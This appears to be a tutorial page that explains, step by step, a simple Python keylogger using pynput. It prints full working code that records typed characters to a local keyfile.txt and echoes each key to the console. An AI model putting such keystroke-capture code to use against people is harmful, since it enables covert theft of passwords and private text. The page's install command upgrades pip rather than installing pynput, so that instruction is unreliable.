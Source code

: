 ```yaml
---
layout: default
---
```


# Installing And Importing The Required Module And Packages

For this project we need to install the _pynput_ package and make use of the _keyboard_ module.

The _keyboard_ moduel is required to monitor keyboard inputs. This allows for the program to listen for key presses.

> The package can be installed via the _Terminal_ using the following command:
>
> ```bash
> python.exe -m pip install --upgrade pip
> ```

Once the package is installed, we need to import the module using the following line:

```python
# Importing the necessary module
from pynput import keyboard
```

# Creating A Function

Firstly, we define a function named _keyPressed_ that takes a _key_ parameter which represents the key that is pressed.

A print line is added to see the real-time presses.

The function then creates a file named "keyfile.txt" in append mode so that previous content in the file is not overwritten. This file will keep a record of all keys pressed. The _with_ ensures the file is properly closed after the code is executed.

Inside the _try_ block, the code attempts to get the character representation of the pressed key and if successfull it writes this character to "keyfile.txt" file.

The _except_ is used in case there are any exception that occur (when the key pressed doesnt have a character representaion, like Shift or Ctrl) in which case it will print out the message "Error getting char".

```python
def keyPressed(key):
    # Function to handle key press events

    # Print the string representation of the pressed key
    print(str(key))

    # Open a file named "keyfile.txt" in append mode
    with open("keyfile.txt", 'a') as logKey:
        try:
            # Attempt to get the character representation of the key
            char = key.char
            # Write the character to the file
            logKey.write(char)
        except:
            # If an exception occurs (e.g., for special keys), print an error message
            print("Error getting char")
```

# Main Code

This block of code sets up the keyboard listener, starts it running in the background, by creating a new _Listener_ object from the _keyboard_ module. The _on_press_ parameter is set to the _keyPressed_ function we defined earlier. This means that every time a key is pressed, the _keyPressed_ function will be called with the key as its argument. The main program runs indefinitely (or until the user decides to end it by pressing Enter). This allows the script to continuously monitor and log keystrokes for as long as it's left running.


```python
# Check if this script is being run directly (not imported)
if __name__ == "__main__":
    # Create a keyboard listener that calls keyPressed function on each key press
    listener = keyboard.Listener(on_press=keyPressed)

    # Start the listener in a non-blocking fashion
    listener.start()

    # Keep the script running until user presses Enter
    input()
```

# The Full Code

```python
# Import the keyboard module from pynput library
from pynput import keyboard


def keyPressed(key):
    # Function to handle key press events

    # Print the string representation of the pressed key
    print(str(key))

    # Open a file named "keyfile.txt" in append mode
    with open("keyfile.txt", 'a') as logKey:
        try:
            # Attempt to get the character representation of the key
            char = key.char
            # Write the character to the file
            logKey.write(char)
        except:
            # If an exception occurs (e.g., for special keys), print an error message
            print("Error getting char")


# Check if this script is being run directly (not imported)
if __name__ == "__main__":
    # Create a keyboard listener that calls keyPressed function on each key press
    listener = keyboard.Listener(on_press=keyPressed)

    # Start the listener in a non-blocking fashion
    listener.start()

    # Keep the script running until user presses Enter
    input()
```

# Contents Of keyfile.txt

![Branching](keyloggerFile.png)


